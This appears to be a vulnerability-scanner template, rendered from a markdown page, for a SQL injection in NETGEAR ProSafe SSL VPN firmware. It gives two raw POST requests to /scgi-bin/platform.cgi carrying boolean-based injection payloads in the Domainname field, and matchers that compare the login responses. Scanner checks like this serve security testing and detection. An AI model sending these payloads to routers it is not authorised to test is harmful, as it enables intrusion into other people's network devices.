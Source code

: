 **Type - word**
- part - body
- words
    1. Product not found

**Type - status**
- status
    1. 400

---
# NETGEAR ProSafe SSL VPN firmware - SQL Injection
## Description
- NETGEAR ProSafe SSL VPN multiple firmware versions were discovered to contain a SQL injection vulnerability via USERDBDomains.Domainname at cgi-bin/platform.cgi.

- severity - critical
- tags - cve,cve2022,sqli,netgear,router
## Requests
### Step - 1
```
POST /scgi-bin/platform.cgi HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=utf-8

thispage=index.htm&USERDBUsers.UserName=NjVI&USERDBUsers.Password=&USERDBDomains.Domainname=geardomain'+AND+'5434'%3d'5435'+AND+'MwLj'%3d'MwLj&button.login.USERDBUsers.router_status=Login&Login.userAgent=MDpd

```
### Step - 2
```
POST /scgi-bin/platform.cgi HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=utf-8

thispage=index.htm&USERDBUsers.UserName=NjVI&USERDBUsers.Password=&USERDBDomains.Domainname=geardomain'+AND+'5434'%3d'5434'+AND+'MwLj'%3d'MwLj&button.login.USERDBUsers.router_status=Login&Login.userAgent=MDpd

```
### Matchers

**Type - dsl**
- dsl
    1. contains(body_1, "User authentication Failed")
    2. contains(body_2, "User Login Failed for SSLVPN User.")
- condition - and

---